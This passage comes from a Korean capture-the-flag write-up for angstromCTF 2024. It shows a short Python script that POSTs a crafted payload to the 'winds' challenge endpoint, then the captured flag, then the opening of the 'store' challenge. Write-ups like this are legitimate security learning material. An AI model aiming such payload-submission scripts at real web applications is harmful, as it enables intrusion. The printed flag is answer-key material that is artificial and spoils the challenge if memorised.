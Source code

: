 ```python
payload = ''.join(s)
print("exploit_code:", payload)

url = "https://winds.web.actf.co/shout"
r = requests.post(url, data={"text": payload})
print(r.text)
```
     
<img src="/assets/images/ctf/2024/angstrom/winds/flag.jpg" width="700px">      
                  
### Flag    
actf{2cb542c944f737b85c6bb9183b7f2ea8}
        
<a id="store"></a>      
      
# store         

214 solved / 100 pts                 
            
<img src="/assets/images/ctf/2024/angstrom/store/try.jpg" width="700px">       
                        
`Otamatone` 문자를 입력하니 추가 정보가 나오는 것을 확인했다.    
                                                        